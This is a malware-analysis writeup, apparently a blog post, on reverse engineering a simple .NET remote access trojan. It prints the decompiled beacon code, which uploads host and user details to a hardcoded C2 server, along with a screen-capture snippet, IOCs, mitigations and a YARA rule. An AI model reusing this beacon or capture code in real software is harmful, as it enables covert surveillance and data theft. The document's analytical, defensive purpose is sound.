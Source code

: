 ```yaml
---
title: "Basic RAT Analysis"
image: "/ViperScan.jpg"
date: "2024-05-15"
category: "malware"
tags: ["rat", "malware", "analysis"]
description: "Reverse engineering a basic remote access trojan (RAT)."
---
```


# 🐀 Analyzing a Simple RAT

In this writeup, we reverse engineer a .NET binary identified as a **Remote Access Trojan (RAT)**. The sample was found during a honeypot deployment and exhibits typical C2 (Command and Control) behavior.

<Note>This analysis was performed in an isolated virtual machine with no internet access to avoid unintended communication.</Note>

---

## 🔍 Behavioral Analysis

Upon execution, the RAT attempts to connect to a hardcoded C2 server.

```http
POST /api/command HTTP/1.1
Host: 192.168.1.66
User-Agent: RATClient/1.0
Content-Type: application/json
```
The binary sends system information on startup and waits for commands via polling.

### 📦 Static Analysis
We decompiled the .NET sample using dnSpy, revealing the following:

```csharp
public void ConnectToServer()
{
    string host = "http://192.168.1.66/api/command";
    string hostname = Environment.MachineName;
    string user = Environment.UserName;
    string os = Environment.OSVersion.ToString();

    var data = new {
        id = Guid.NewGuid().ToString(),
        hostname,
        user,
        os
    };

    string json = JsonConvert.SerializeObject(data);
    using (var client = new WebClient()) {
        client.UploadString(host, json);
    }
}
```
<Note>This function is called on startup and acts as the beacon.</Note>

### 🧠 Capabilities Observed
- Command Execution: Receives and runs shell commands.
- File Download/Upload: Accepts base64 files.
- Screenshot Capture: Captures and uploads PNG files using `Graphics.CopyFromScreen`.

```csharp
Bitmap bmp = new Bitmap(width, height);
Graphics g = Graphics.FromImage(bmp);
g.CopyFromScreen(0, 0, 0, 0, bmp.Size);
```
- Keylogger: Hooks into user32.dll via `SetWindowsHookEx`.

### 🧪 Indicators of Compromise (IOCs)
- C2 IP: 192.168.1.66
- User-Agent: RATClient/1.0
- Registry Key: HKCU\Software\Microsoft\Windows\CurrentVersion\Run\rat_client
- Dropped Files: C:\Users\<user>\AppData\Roaming\rat-client\client.exe

### 🛡️ Mitigation
- Block C2 domain/IP at the firewall.
- Monitor registry keys for persistence entries.
- Use behavior-based EDR solutions to detect screen capture and shell activity.

<Note>Persistence is achieved via registry autorun. Always monitor startup entries on endpoints.</Note>

### 🧵 YARA Rule (Simplified)
```yara
rule Basic_RAT
{
  meta:
    description = "Detects RATClient/1.0 user-agent"
    author = "GlitchViper"
  strings:
    $ua = "RATClient/1.0"
    $url = "http://192.168.1.66/api/command"
  condition:
    $ua or $url
}
```
### 🏁 Conclusion
This RAT is simple but dangerous. While it lacks advanced obfuscation, it demonstrates key features commonly found in real-world malware.

### 📡 C2 Communication
### 🔒 Persistence
### 🖼️ Screenshot Capture
### 📁 File Transfer

Always perform malware analysis in an isolated environment and document all observed IOCs.

<Note>Reverse engineering malware improves your ability to understand real-world attacker techniques. Practice with samples in a safe lab using tools like dnSpy, Ghidra, and ProcMon.</Note>